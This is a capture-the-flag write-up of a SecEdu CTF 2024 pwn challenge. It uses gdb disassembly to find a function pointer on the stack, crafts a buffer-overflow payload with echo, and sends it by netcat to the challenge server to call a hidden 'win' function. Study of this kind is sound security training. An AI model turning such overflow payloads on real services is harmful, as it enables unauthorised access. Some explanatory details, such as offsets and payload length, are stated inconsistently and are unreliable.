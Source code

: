 ```yaml
---
title: "Overflowing with files"
description: "They also seem to have quite an interesting top-secret file delivery system, developed in C of all things?! Find a way to get the contents of the top-secret document.\n\n`nc chals.secedu.site 5001`"
pubDate: 2024-09-12
ctf: "SecEdu CTF 2024"
category: "pwn"
author: "sealldev & finnersio"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/seceduweek12024#overflowing-with-files)

From the challenge description we know the program was written in C, and we can analyse the program in gdb.

Running the program we see the top-secret document is at the memory address `0x4011f6`.
```bash
./chal
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011f6
Please don't visit this, okay?
Response
```

Loading up gdb, we can run `info functions` to see what symbols are left in the binary. We see among others a function called `win` at `0x4011f6`, we know where we need to get to.
```c
gdb chal
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
...
0x00000000004011f6  win
0x0000000000401268  exiting
0x0000000000401282  main
...
```

Taking a look at the main function, there's not much we care about until towards the end:

```c
# Note I am using intel disassembly flavor, not AT&T
0x00000000004012f6 <+116>:	call   0x401100 <__isoc99_scanf@plt>
0x00000000004012fb <+121>:	mov    rax,QWORD PTR [rbp-0x10]
0x00000000004012ff <+125>:	mov    rsi,rax
0x0000000000401302 <+128>:	lea    rax,[rip+0xe37]        # 0x402140
0x0000000000401309 <+135>:	mov    rdi,rax
0x000000000040130c <+138>:	mov    eax,0x0
0x0000000000401311 <+143>:	call   0x4010c0 <printf@plt>
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
0x000000000040131a <+152>:	call   rax
0x000000000040131c <+154>:	mov    eax,0x0
0x0000000000401321 <+159>:	leave
0x0000000000401322 <+160>:	ret
```

We see a call to `scanf` to capture the user's input, and another call to `prinf`.  But we also see the return address (`rax`) being assigned to a value offset of the base pointer (`rbp`).

```c
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
```

Let's see how our data is being stored in the program, we will set a breakpoint at the statement above.

```c
(gdb) break *main+152
Breakpoint 1 at 0x40131a
(gdb) r
Starting program: 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011f6
Please don't visit this, okay?
Response: AAAAAAAAAAAAAAAAAAA
Okay, you know what? Lets go to 0x401268!!
 Andddd.... here we go!


Breakpoint 1, 0x000000000040131a in main ()
```

Looking at the stack pointer, we see our input and we know it is being stored on the stack. Let's see if we can overflow the buffer and change `rax` to the secret-document address.
```c
(gdb) x/s $rsp
0x7fffffffe090:	'A' <repeats 19 times>
```

From the below we know an 8 byte value (`QWORD PTR`) is being loaded into `rax` from `rbp-0x16` (`rbp - 16 bytes`).
```c
0x0000000000401316 <+148>:	mov    rax,QWORD PTR [rbp-0x10]
```

Craft a payload 16 bytes long with an extra byte at the end for the new address for `rax`.

```bash
python3 -c 'print("a"*8*16 + "A"*8)'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAAAAAA
```

Run the program again.
```c
Breakpoint 1, 0x000000000040131a in main ()
(gdb) x/s $rsp
0x7fffffffe090:	'a' <repeats 128 times>, "AAAAAAAA"
(gdb) p/x $rax
$2 = 0x4141414141414141
```

It worked! `rax` is all "A" (0x41 in hex). Let's make the payload the actual address of the secret document. Unfortunately, `0x4011f6` isn't all printable characters so we will need a file for our payload. 

```bash
echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x11\x40' > payload.txt
```

We will use `echo` to save the non-printable characters to a file and load the address in reverse order as we are on a little-endian system.

Run the program with the file as input:
```c
(gdb) r < payload.txt
...
Response: Okay, you know what? Lets go to 0x4011f6!!
 Andddd.... here we go!

Awesome work, here is the only top secret file, obvious employee:
```

We have the secret file, now to do it for real with netcat. 

```
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011bd
Please don't visit this, okay?
Response: s
Okay, you know what? Lets go to 0x40122b!!
 Andddd.... here we go!

Nothing found here, but thanks for stopping by!
```

We know the program, and we know the buffer. This time we are going to `0x4011bd`. Make a new payload, and send the file with netcat along with the `-q` to quit the transmission after one second.

```bash
cat payload.txt | nc -q 1 chals.secedu.site 5001
Welcome to ORG-A's epic "File distribution system"! Here is the address of the function that contains the top-secret documents: 0x4011bd
Please don't visit this, okay?
Response: Okay, you know what? Lets go to 0x4011bd!!
 Andddd.... here we go!

Awesome work, here is the only top secret file, obvious employee:
SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}
```

Flag: `SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}`